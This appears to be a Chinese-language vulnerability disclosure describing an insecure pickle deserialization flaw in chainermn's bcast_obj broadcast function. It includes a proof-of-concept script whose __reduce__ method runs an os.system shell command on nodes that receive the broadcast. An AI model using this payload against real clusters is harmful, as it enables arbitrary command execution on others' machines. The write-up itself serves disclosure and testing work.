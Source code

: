 ![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSrcNn60ZcibTxQIp7icI1YsIVBuoicicyqeotwDOPkE19Q3hcZWmwPESaMribKOjDF39oK1w3lPtM3iaicQ/640?wx_fmt=png&from=appmsg "")  
  
**漏洞细节**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSrcNn60ZcibTxQIp7icI1YsI7B0dPpcLTmgTz4HmrFvZsqmXuYPogDbZTRYLP7EmIhTsBTpgyVaz3g/640?wx_fmt=png&from=appmsg "")  
  
  
在   
chainermn 模块中，  
bcast_obj 函数负责从根节点广播对象到其他节点。在这个过程中，非根节点在接收数据时进行反序列化，但没有对输入数据进行有效的验证或限制。这使得攻击者可以通过构造恶意的序列化对象，利用该漏洞在目标系统上执行任意命令。  
  
以下是一个简单的示例代码，展示了如何测试该漏洞：  
```
import chainermn
from mpi4py import MPI
import pickle

class SimpleModel:
    def __reduce__(self):
        return (__import__('os').system, ("id; ls",))  # 反序列化后执行的命令

# 创建恶意对象
some = pickle.dumps(SimpleModel())

# 初始化 MPI 通信
comm = MPI.COMM_WORLD
rank = comm.Get_rank()

# 创建 Chainermn 的 communicator
communicator = chainermn.create_communicator('naive')

# `rank 0` 节点发送数据，其他节点接收数据
if rank == 0:
    data = SimpleModel()  # 根节点创建恶意数据
else:
    data = None

# 广播数据
data = communicator.bcast_obj(data, root=0)

# 打印接收到的数据
print(f"节点 (rank {rank}): 收到数据 '{data}'")

# 示例：进行集合操作（如果需要）
data_to_gather = f"Data from {rank}"
gathered_data = comm.gather(some, root=0)

# `rank 0` 节点输出收集到的数据
if rank == 0:
    print(f"节点 (rank {rank}): 收到的数据 {gathered_data}")

# 同步所有进程
comm.Barrier()
```  
  